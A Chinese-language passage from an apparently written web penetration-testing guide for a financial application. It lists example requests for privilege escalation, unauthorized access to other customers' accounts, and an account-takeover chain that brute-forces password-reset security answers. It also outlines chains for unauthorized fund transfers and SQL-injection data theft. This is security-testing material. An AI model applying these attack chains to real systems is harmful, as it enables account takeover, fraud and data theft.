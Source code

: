 2. 权限提升测试
   ```
   # 修改角色参数
   {"role": "admin"}
   
   # 添加权限尝试
   {"permissions": ["view", "transfer", "admin", "system"]}
   
   # 测试管理功能访问控制
   直接访问/admin/系列端点
   ```

3. 批量操作安全测试
   ```
   # 系统报表批量导出
   POST /api/reports/export HTTP/1.1
   Content-Type: application/json
   
   {"accounts": ["1234", "1235"], "dateRange": {"start": "2023-01-01", "end": "2023-06-30"}}
   
   # 越权访问测试
   {"accounts": ["9876", "9877"]} // 其他客户账号
   ```

##### 4. 高级漏洞利用链

1. 账户接管漏洞链
   ```
   # 步骤1: 利用密码重置功能缺陷
   POST /api/reset-password HTTP/1.1
   {"username": "victim", "securityQuestionId": 1, "answer": "dog"}
   
   # 步骤2: 枚举安全问题和答案
   使用Intruder测试常见答案
   
   # 步骤3: 重置密码获取访问
   POST /api/complete-reset HTTP/1.1
   {"username": "victim", "token": "TOKEN", "newPassword": "NewPass123"}
   ```

2. 资金转移漏洞链
   ```
   # 步骤1: 会话固定攻击获取用户会话
   # 步骤2: CSRF漏洞绕过双重验证
   # 步骤3: 操作转账API执行未授权转账
   ```

3. 数据泄露漏洞链
   ```
   # 步骤1: 利用API参数操作获取错误消息
   # 步骤2: 从错误消息中提取数据库信息
   # 步骤3: 构建SQL注入载荷获取敏感数据
   ```

##### 5. 测试结果与风险评估
